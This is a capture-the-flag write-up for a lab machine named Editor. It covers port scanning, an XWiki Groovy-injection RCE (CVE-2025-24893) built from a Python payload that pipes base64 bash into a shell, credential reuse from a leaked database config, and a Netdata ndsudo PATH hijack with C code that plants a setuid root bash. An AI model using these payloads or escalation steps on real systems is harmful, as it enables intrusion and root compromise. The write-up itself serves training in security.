



+++
date = '2026-09-30T09:23:45-04:00'
draft = false
title = 'Editor'
+++
## Introduction

Editor presented another Linux machine with a series of web servers. By digging through the webservers, a wiki site using the open-source XWiki software can be discovered. By embedding code as part of a search query, a Remote Code Execution (RCE) vulnerability can be taken advantage of to return a reverse shell. From there, due to some password reuse, a user account can be compromised. Finally, a setuid binary from a computer monitoring tool is used to run a rogue binary that grants a root shell.

## Enumeration

As per usual, I will begin this machine by performing some enumeration. Nmap is a good starting point. It reveals that the machine is hosting an SSH interface, an nginx web server on port 80 and another web server running Jetty at TCP 8080. The versioning and service discovery scripts are also able to detect that the machine is an Ubuntu machine.

```bash
$ nmap -T4 -sC -sV -p- editor.htb
Starting Nmap 7.98 ( https://nmap.org ) at 2026-09-30 09:25 -0400
Nmap scan report for editor.htb (10.129.231.23)
Host is up (0.015s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Editor - SimplistCode Pro
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
| http-title: XWiki - Main - Intro
|_Requested resource was http://editor.htb:8080/xwiki/bin/view/Main/
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Jetty(10.0.20)
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|   WebDAV type: Unknown
|_  Server Type: Jetty(10.0.20)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.13 seconds
```

I did some initial searching for SSH CVEs based on the Ubuntu and OpenSSH version, but nothing immediately leaped out as a realistic exploit for this machine. What did stand out was the number of webservers that were available to explore.

The first webserver is an information page for a new Python-based IDE called SimplistCode Pro. Interestingly, the website hosts Debian and Windows install media that can be downloaded. I will leave this for now, but they could become useful later. Other than the downloads, the web server does not have much else interesting from an attacker's perspective. 


Following the documentation link from the initial webpage, the browser lands on an XWiki site. The wiki seems to only contain one post from user Neal Bagwell. The content of the wiki contains an introduction page alongside an installation page which gives instructions for correctly installing the code editor.



Another interesting thing to note was a login page. I tried some default credentials, but no luck this time. The login page is useful in other ways, however, since the page leaks the version number and distribution of the website. It appears to be XWiki Debian 15.10.8, which further confirms it is a Linux-based host.



## XWiki

XWiki is an open-source wiki software for creating documentation and posts for various projects. With the version number in hand, I began searching for any security advisories and CVEs that might be relevant to this machine. After only a few searches, CVE-2025-24893 looked promising as an unauthenticated Remote Code Execution (RCE) issue that takes advantage of the vulnerable SolrSearch macro. 

SolrSearch is an open-source search engine that XWiki can host to index the wiki content. The crux of the vulnerability is the way that the macro evaluates search parameters using the Java-based scripting language Groovy. The search engine can be hit by using the endpoint '{target}/xwiki/bin/get/Main/SolrSearch?media=rss&text={encoded_payload}' with the payload passed via a URL search query. Embedding Groovy code as part of the search parameters will result in code execution on the XWiki host, enabling RCE and reverse shells.

Using the Groovy scripting language as a wrapper, I prepared a base64 bash payload that pings my machine 5 times. Then I encoded it using URL encoding and queried the SolrSearch XWiki macro. With Wireshark as a monitor, the remote machine successfully pinged my machine, proving the RCE vulnerability is possible. From there, I prepared a reverse shell payload and gained access as the xwiki user!

```python
>>> b64_ping = base64.b64encode(f"ping -c 5 10.10.XX.YY".encode()).decode()

>>> payload = (
...     f"}}}}}}{{{{async async=false}}}}{{{{groovy}}}}"
...     f"\"bash -c {{echo,{b64_ping}}}|{{base64,-d}}|{{bash,-i}}\".execute()"
...     f"{{{{/groovy}}}}{{{{/async}}}}"
... )
>>> enc_payload = urllib.parse.quote(payload, safe="=,-,")
>>> print(enc_payload)
%7D%7D%7D%7B%7Basync%20async=false%7D%7D%7B%7Bgroovy%7D%7D%22bash%20-c%20%7Becho,cG********************E0Ljc3%7D%7C%7Bbase64,-d%7D%7C%7Bbash,-i%7D%22.execute%28%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
>>> 
```



## Web User Enumeration

Upon gaining a reverse shell as the xwiki user, I used a Python trick to improve the quality of the shell using Python's built-in pty module.

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

From there, I searched the local directories for any interesting files related to either XWiki or the owners of the web server/code editor. The users directory reveals one user called Oliver, but I can't access any of their files. I ran some checks for sudo privileges and also checked the Linux kernel version, but nothing immediately looks exploitable.

I decided to check the configuration properties for XWiki, since it appears to use a MySQL database to store its content. Inside the XWiki configuration directory are validation and encryption keys. Whilst I didn't have a use for these immediately, I noted them down in case they prove useful later. 

```bash
$ cat configuration.properties
xwiki.authentication.validationKey = \uBF48\u0EE2\u03FE\u4B0F\u3C8E\u35DA\uEEB8\u4013\u1E90\uF9A7\u4040\u28EA\uD217\u288BF\u6AF7\u377E\u295C\uC98D\u17FB5\uD3D4\u967F\uB8DE\u955B\uD54B\uEE55\u890D\uAFFC\u993B\u1C49\u9B87
xwiki.authentication.encryptionKey = \uC327\u7B18\u1FFE\u913D\uEDBD\u6C85\uE778\uD7C6\u91D0\uA56F\uE1CB\u014B\uD03E\u9E5D\uED9D\uB44A\u3A0C\u1C76\uF0D6\u8289\u645F\u6EB8\u00EB\u99DA\u589E\uE3CE\uC24A\u9486\u5EAB\u2E85\uCCEB\uAF4D
```

After a further search and having reviewed the XWiki documentation, I turned my attention to a file containing database connections. Inside is a database password for the MySQL instance, which I was then able to access and explore. 

```xml
xwiki@editor:/usr/lib/xwiki/WEB-INF$cat hibernate.cfg.xml
<property name="hibernate.connection.url">jdbc:mysql://localhost/xwiki?useSSL=false&amp;connectionTimeZone=LOCAL&amp;allowPublicKeyRetrieval=true</property>                        
<property name="hibernate.connection.username">xwiki<property>
<property name="hibernate.connection.password">theEd1t0rTeam99</property>
```

Once I had finished exploring the database, I decided to test whether the editor team were guilty of reusing passwords for multiple purposes. By pairing the Oliver user account and the database password, I was able to access the machine via SSH.

## Oliver User Enumeration

Now that I had successfully gained access to the user Oliver's account, the first thing I did was capture the user flag to complete the first part of the CTF challenge. The next part would need me to elevate my privileges to the root user. As a first piece of enumeration, I queried the machine for the Linux kernel version in case there are any kernel vulnerabilities that might be relevant. I took a look around Oliver's home directory and the surrounding file structure; however, there wasn't anything of interest from my initial search.

```bash
oliver@editor:~$ uname -a
Linux editor 5.15.0-151-generic #161-Ubuntu SMP Tue Jul 22 14:25:40 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
```

I instead turned my attention to finding out a bit more about Oliver's user account. I wanted to see if Oliver had access to any unusual setuid binaries on the machine. Turns out in the opt folder there are a few to choose from inside of a folder called netdata. Not only that, but when querying for the groups that Oliver's account is part of, the netdata phrase is again used.

```bash
oliver@editor:/$ find / -perm -4000 -type f 2>/dev/null
/opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network
/opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/local-listeners
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
/opt/netdata/usr/libexec/netdata/plugins.d/ioping
/opt/netdata/usr/libexec/netdata/plugins.d/nfacct.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
```

```bash
oliver@editor:/$ groups
oliver netdata
```

## Netdata ndsudo Vulnerability

Before doing any further research, I decided to investigate a few of these utilities and see what their intended use case was. Immediately the ndsudo binary stood out since it shares the name with the binary used to elevate a user's privileges to the root user. Executing this binary with the --help option displays a help page showing the usage of the utility but also includes a key piece of evidence that this might be a privilege escalation vector. 

```bash
oliver@editor:~$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo -h

ndsudo

(C) Netdata Inc.

A helper to allow Netdata run privileged commands.

--test
print the generated command that will be run, without running it.

--help
print this message.

The following commands are supported:

- Command    : nvme-list
Executables: nvme 
Parameters : list --output-format=json

- Command    : nvme-smart-log
Executables: nvme 
Parameters : smart-log {{device}} --output-format=json

- Command    : megacli-disk-info
Executables: megacli MegaCli 
Parameters : -LDPDInfo -aAll -NoLog

- Command    : megacli-battery-info
Executables: megacli MegaCli 
Parameters : -AdpBbuCmd -aAll -NoLog

- Command    : arcconf-ld-info
Executables: arcconf 
Parameters : GETCONFIG 1 LD

- Command    : arcconf-pd-info
Executables: arcconf 
Parameters : GETCONFIG 1 PD

The program searches for executables in the system path.

Variables given as {{variable}} are expected on the command line as:
--variable VALUE

VALUE can include space, A-Z, a-z, 0-9, _, -, /, and .
```

The program states that it will search for executables in the system path. Since Oliver's account can edit the system path, there's a good chance that this program is just looking for a binary named correctly somewhere in the folders designated on path. To confirm, I searched for privilege escalation vectors using netdata binaries, and CVE-2024-32019 confirmed just that, especially using the ndsudo utility. From here, all that was necessary was a malicious binary that would perform some action as root and that would give a persistent shell. Instead of choosing any reverse shells, I instead opted to create a malicious binary called nvme that would make a copy of the bash binary in the tmp directory, set the owner as root and then make it executable by anyone with the setuid bit also set for this new binary. The code can be viewed below.

```c
#include <unistd.h>
#include <stdlib.h>

int main() {
setuid(0);
seteuid(0);
setgid(0);
setegid(0);
system("cp /bin/bash /tmp/bash; chown root:root /tmp/bash; chmod 6777 /tmp/bash");
}
```

From there, I hosted the malicious nvme binary on my attacker machine and downloaded it on the Editor machine into the /tmp directory. Then, using the export command, I added /tmp to path so that the ndsudo binary would search that directory for nvme. Finally it was time to run ndsudo, which initially seemed to do nothing. However, in the background, a new bash binary in /tmp had been created with the setuid bit enabled, meaning I could now execute bash as root, giving me a root shell. The Editor machine had been completely compromised.